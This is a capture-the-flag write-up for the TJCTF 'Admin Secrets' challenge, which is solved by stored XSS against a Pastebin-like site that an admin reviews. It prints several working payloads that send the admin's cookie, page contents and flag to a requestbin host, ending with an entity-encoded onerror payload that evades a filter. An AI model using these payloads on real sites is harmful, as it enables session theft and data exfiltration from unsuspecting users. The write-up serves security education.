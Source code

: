 # Admin Secrets

## Problem

See if you can get the flag from the admin at this website!

Written by avz92

## Solution

This was probably one of my favourite challenges from the CTF (that is after the update was added where the challenge gave more feedback)

Visiting the website, we can create an account. The website is called Textbin, very similar to a Pastebin where you can type text and it will save it as a post. It also let's you report posts to the admin. That sounds very much like a Cross Site Scripting (XSS) attack.  

Trying `<script>alert(1)</script>` confirms that.

Like with most XSS challenges, I assumed we need to steal the admin's session cookie allowing us to login as them. So I wrote a small cookie stealing script and have the admin's cookie sent over to a [requestbin](https://requestbin.com/). 

```html
<script>
  req = new XMLHttpRequest(); 
  req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?cookie=' + document.cookie); 
  req.send();
</script>
```

From that we get:
`hint="Check the admin console!\012"`

Looking at the source code of the page where it says report to admin, we can see a div,

```html
<div class="col-8 admin_console" >
  <!-- Only the admin can see this -->
</div>
```

So instead of stealing `document.cookie` let's steal `document.getElementsByClassName("admin_console")[0].innerHTML`

However, there is one additional step due to the fact that the admin console is loaded after our XSS executes so we need to add an event listener to run the XSS after everything has been rendered

```html
<script>
document.addEventListener("DOMContentLoaded", function(event){
  req = new XMLHttpRequest(); 
  req.open('GET', 'https://enl502avnnt87.x.pipedream.net/?output=' + encodeURI(document.getElementsByClassName("admin_console")[0].innerHTML)); 
  req.send();
});
</script>
```

From that we get:
```html
<!-- Only the admin can see this --> 
<button class="btn btn-primary flag-button">Access Flag</button>
<a href="/button" class="btn btn-primary other-button">Delete User</a>
<a href="/button" class="btn btn-primary other-button">Delete Post</a>
```

Instead of simulating the press of the flag button, I opted to simply leak the entire source code and see what pressing the button does.

```html
<script>
document.addEventListener("DOMContentLoaded", function(event){
  req = new XMLHttpRequest();
  req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?output=' + btoa(document.getElementsByTagName('HTML')[0].innerHTML));
  req.send();
});
</script>
```

We can see the button simply makes a get request to `/admin_flag` endpoint.

I thought I was really close to solving it at this point, simply needed to make the admin visit that endpoint and sent its contents to the requestbin. 

```html
<script>
req1 = new XMLHttpRequest();
req1.open('GET', '/admin_flag');
req1.onload = function() {
    var flag = req1.response;
    req = new XMLHttpRequest(); 
    req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?output=' + encodeURI(flag)); 
    req.send();
}
req1.send();
</script>
```

Unfortunately, we don't get the flag from that. Instead we get:
```
This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed for the following violations: Script tags found. Single quote found. Parenthesis found.
```

So looks like the author implemented some sort of filtering. The weird part is the XSS still works but looks like the flag got replaced by that.
After a lot of googling and research, I was able to find a way to bypass the checks the site makes. 

```html
<img src=1 onerror=&#x72&#x65&#x71&#x31&#x20&#x3d&#x20&#x6e&#x65&#x77&#x20&#x58&#x4d&#x4c&#x48&#x74&#x74&#x70&#x52&#x65&#x71&#x75&#x65&#x73&#x74&#x28&#x29&#x3b&#x0a&#x72&#x65&#x71&#x31&#x2e&#x6f&#x70&#x65&#x6e&#x28&#x60&#x47&#x45&#x54&#x60&#x2c&#x20&#x60&#x2f&#x61&#x64&#x6d&#x69&#x6e&#x5f&#x66&#x6c&#x61&#x67&#x60&#x29&#x3b&#x0a&#x72&#x65&#x71&#x31&#x2e&#x6f&#x6e&#x6c&#x6f&#x61&#x64&#x20&#x3d&#x20&#x66&#x75&#x6e&#x63&#x74&#x69&#x6f&#x6e&#x28&#x29&#x20&#x7b&#x20&#x0a&#x09&#x76&#x61&#x72&#x20&#x66&#x6c&#x61&#x67&#x20&#x3d&#x20&#x72&#x65&#x71&#x31&#x2e&#x72&#x65&#x73&#x70&#x6f&#x6e&#x73&#x65&#x3b&#x0a&#x09&#x72&#x65&#x71&#x20&#x3d&#x20&#x6e&#x65&#x77&#x20&#x58&#x4d&#x4c&#x48&#x74&#x74&#x70&#x52&#x65&#x71&#x75&#x65&#x73&#x74&#x28&#x29&#x3b&#x0a&#x09&#x72&#x65&#x71&#x2e&#x6f&#x70&#x65&#x6e&#x28&#x60&#x47&#x45&#x54&#x60&#x2c&#x20&#x60&#x68&#x74&#x74&#x70&#x73&#x3a&#x2f&#x2f&#x65&#x6e&#x67&#x75&#x6a&#x7a&#x72&#x37&#x77&#x6c&#x79&#x30&#x6b&#x2e&#x78&#x2e&#x70&#x69&#x70&#x65&#x64&#x72&#x65&#x61&#x6d&#x2e&#x6e&#x65&#x74&#x2f&#x3f&#x6f&#x75&#x74&#x70&#x75&#x74&#x3d&#x60&#x20&#x2b&#x20&#x65&#x6e&#x63&#x6f&#x64&#x65&#x55&#x52&#x49&#x28&#x66&#x6c&#x61&#x67&#x29&#x29&#x3b&#x0a&#x09&#x72&#x65&#x71&#x2e&#x73&#x65&#x6e&#x64&#x28&#x29&#x3b&#x20&#x0a&#x09&#x7d&#x0a&#x72&#x65&#x71&#x31&#x2e&#x73&#x65&#x6e&#x64&#x28&#x29&#x3b />
```

The image source does not exist, so it goes to the onerror and executes the javascript which is encoded in hex. 

Flag: **tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}**

